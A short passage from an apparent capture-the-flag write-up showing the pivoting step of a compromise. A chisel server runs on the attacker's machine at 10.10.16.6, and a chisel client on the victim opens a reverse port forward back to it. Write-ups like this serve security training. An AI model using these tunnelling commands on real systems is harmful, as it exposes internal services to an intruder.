 ![Alt text](img/image-32.png)


To be accessible, I need to upload `chisel` into machine then make `Port Forwarding`.

1.First, I need to create `chisel` server on attacker's machine.
```bash
chisel server -p 8000 --reverse
```

![Alt text](img/image-33.png)

2.Then, I need to connect my `chisel` server via `chisel` client.
```bash
.\c.exe client 10.10.16.6:8000 R:8001:127.0.0.1:8000
```

![Alt text](img/image-34.png)
